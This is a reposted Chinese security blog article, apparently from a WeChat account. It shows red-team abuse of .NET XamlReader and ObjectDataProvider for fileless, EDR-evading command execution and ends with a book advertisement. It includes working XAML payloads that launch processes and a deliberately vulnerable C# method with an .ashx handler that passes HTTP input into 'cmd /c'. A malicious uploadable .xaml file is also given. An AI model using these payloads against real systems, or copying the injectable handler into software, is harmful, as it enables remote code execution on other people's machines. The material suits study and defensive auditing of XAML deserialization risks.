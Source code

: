 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzUyOTc3NTQ5MA==&mid=2247499953&idx=3&sn=35d070e846b8f01bd8d441b1dae2c836

#  .NET 通过 XAML 实现任意代码执行  
原创 专攻.NET安全的  dotNet安全矩阵   2025-06-25 01:03  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/NO8Q9ApS1YibJO9SDRBvE01T4A1oYJXlTBTMvb7KbAf7z9hY3VQUeayWI61XqQ0ricUQ8G1FykKHBNwCqpV792qg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=webp "")  
  
在红队渗透测试中，寻找一条干净、无文件、规避防护的命令执行路径一直是行动的关键。传统的 Web Shell、反序列化漏洞、反射加载等方式虽然威力强大，但在 EDR 与主机防护产品，比如 Defender、360、火绒日渐严密的今天，往往难以隐身。  
  
本文将聚焦一个极少被利用的 .NET 攻击面 —— **XamlReader 动态解析 XAML 的特性**  
。通过精心构造的 XAML 载荷，我们可以在目标机器上无文件启动任意系统进程，实现隐蔽的远程命令执行。  
  
**01. 技术背景介绍**  
  
  
  

```
在 .NET 应用中，WPF 因其强大的界面绘制能力和灵活的数据绑定机制而被广泛使用。与传统的 Windows Forms 不同，WPF 使用一种名为 XAML 的声明式标记语言来描述 UI 元素和数据交互逻辑。
```

  
## 1.1 WPF 框架  
  
WPF 是 Microsoft 在 .NET Framework 3.0 中引入的一套 UI 框架，专为构建丰富客户端应用而设计。与 WinForms 相比，WPF 支持硬件加速渲染、更强的控件组合能力、样式控制、动画、数据绑定等高级特性。在 WPF 应用中，通常通过 XAML 文件来定义界面布局，然后在后台代码中为控件编写逻辑。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaMI6UMeEuYBPs645hATYjane3yu3CInZ0ORC3P457KIO09O3MQbgF8Hg/640?wx_fmt=png&from=appmsg "")  
## 1.2 XAML 介绍  
  
XAML 是一种基于 XML 的标记语言，用于声明 UI 组件及其行为。例如，一个简单的按钮控件可以如下声明：  
  

```
<Button Content=&#34;点击我&#34; Width=&#34;100&#34; Height=&#34;50&#34;/>

```

  
  
XAML 允许嵌套、绑定、动画、数据源等复杂逻辑。例如：  
  

```
<ObjectDataProvider x:Key=&#34;launch&#34; ObjectType=&#34;{x:Type sys:Process}&#34; MethodName=&#34;Start&#34;>
<ObjectDataProvider.MethodParameters>
<sys:String>calc.exe</sys:String>
</ObjectDataProvider.MethodParameters>
</ObjectDataProvider>

```

  
  
以上声明可在运行时调用 
```
Process.Start(&#34;calc.exe&#34;)
```

  
 启动计算器。  
  
**02. XamlReader**  
  
  
  

```
System.Windows.Markup.XamlReader 是 WPF 的核心类之一，存在于 
```


```
PresentationFramework.dll
```

  
 中。该类提供了一系列方法，可用于将 XAML 字符串或流解析成实际的 .NET 对象。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaMn7DUzmnajzZlFhO6qJlM4pt28NIaLAVMQEOr7RsDopZrNSC0Y2p1Ag/640?wx_fmt=png&from=appmsg "")  
## 2.1 动态构造XAML  
  
在支持 WPF 的 Web API、富客户端、插件化平台或用户自定义模板系统中，若系统直接调用了 
```
XamlReader.Parse()
```

  
 来解析用户输入的数据，便存在命令执行的风险，具体代码如下所示。  
  

```
publicstaticvoidCodeInject(string input)
{
StringBuilder xaml =newStringBuilder();
    xaml.Append(&#34;<ResourceDictionary &#34;);
    xaml.Append(&#34;xmlns=\&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation\&#34; &#34;);
    xaml.Append(&#34;xmlns:x=\&#34;http://schemas.microsoft.com/winfx/2006/xaml\&#34; &#34;);
    xaml.Append(&#34;xmlns:b=\&#34;clr-namespace:System;assembly=mscorlib\&#34; &#34;);
    xaml.Append(&#34;xmlns:pro=\&#34;clr-namespace:System.Diagnostics;assembly=System\&#34;>&#34;);
    xaml.Append(&#34;<ObjectDataProvider x:Key=\&#34;obj\&#34; ObjectType=\&#34;{x:Type pro:Process}\&#34; MethodName=\&#34;Start\&#34;>&#34;);
    xaml.Append(&#34;<ObjectDataProvider.MethodParameters>&#34;);
    xaml.Append(&#34;<b:String>cmd</b:String>&#34;);
    xaml.Append($&#34;<b:String>/c {input}</b:String>&#34;);
    xaml.Append(&#34;</ObjectDataProvider.MethodParameters>&#34;);
    xaml.Append(&#34;</ObjectDataProvider>&#34;);
    xaml.Append(&#34;</ResourceDictionary>&#34;);

    XamlReader.Parse(xaml.ToString());
}

```

  
  
上述代码段中，程序利用
```
StringBuilder
```

  
类动态构建了一个  
XAML  
字符串，该字符串定义了一个
```
ResourceDictionary。
```

  
  
其中包含了一个
```
ObjectDataProvider
```

  
元素，这个
```
ObjectDataProvider
```

  
被配置为启动
```
System.Diagnostics.Process
```

  
类的
```
Start
```

  
方法，进而调用
```
cmd.exe /c
```

  
命令运行指定的程序，如
```
winver.exe
```

  
。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaMTiaibWdfK6uZaV1mIJib4cLVdsoM8prpXoUdV0wenEqnicxjZQ1quFeNPQ/640?wx_fmt=png&from=appmsg "")  
  
  
如果部署了如下 
```
ashx
```

  
 接口，通过  
HTTP  
请求访问
```
XamlReaderParseSpy.ashx?input=winver
```

  
，可以触发此  
XAML  
代码的解析并成功启动进程。  
  

```
publicvoidProcessRequest(HttpContext context)
{
string cmd = context.Request[&#34;input&#34;];
CodeInject(cmd);
}

```

  
## 2.2 文件方式触发  
  

```
XamlReader.Load 可解析来自本地磁盘的 
```


```
.xaml
```

  
 文件，若系统允许用户上传或修改 
```
.xaml
```

  
 配置，攻击者可构造恶意文件并上传，等待后台加载。  
  

```
<Window xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34;
        xmlns:x=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;
        xmlns:sys=&#34;clr-namespace:System;assembly=mscorlib&#34;
        xmlns:local=&#34;clr-namespace:System.Diagnostics;assembly=System&#34;>
<Window.Resources>
<ObjectDataProvider x:Key=&#34;cmd&#34; ObjectType=&#34;{x:Type local:Process}&#34; MethodName=&#34;Start&#34;>
<ObjectDataProvider.MethodParameters>
<sys:String>calc</sys:String>
</ObjectDataProvider.MethodParameters>
</ObjectDataProvider>
</Window.Resources>
</Window>

```

  
  

```
通过LoadAsync方法正常解析Dictionary2.xaml文件中保存的攻击负载，成功启动本地计算器进程，如下图所示。
```

  
  

```

```

  
综上，
```
XamlReader
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/NO8Q9ApS1YicyKu2gFrnmmCvMAPUeLCiaM9dwmUUIv73sywQo4t1lZUueVBOn7dTgs4s8Sq0hec7PtyHDYqYdnhA/640?wx_fmt=png&from=appmsg "")  
  
以上相关的知识点已收录于  
新书《.NET安全攻防指南》，全书共计25章，总计1010页，分为上下册，横跨.NET Web代码审计与红队渗透两大领域。  
  
  
**上册深入剖析.NET Web安全审计的核心技术，帮助读者掌握漏洞发现与修复的精髓；下册则聚焦于.NET逆向工程与攻防对抗的实战技巧，揭秘最新的对抗策略与技术方法。**  
  
  
**自《.NET安全攻防指南》上线以来，许多读者已抢先下单成功购入并收到了书籍，反响热烈，好评如潮！**  
  
**感谢大家的支持，我们也将持续为大家带来更多优质的.NET安全研究成果！原价258元，现限量优惠，京东自营店全套仅售127元，数量有限！点击京东链接：https://item.jd.com/10140917044329.html 或者打开手机京东APP即可下单购买。**  
  
  
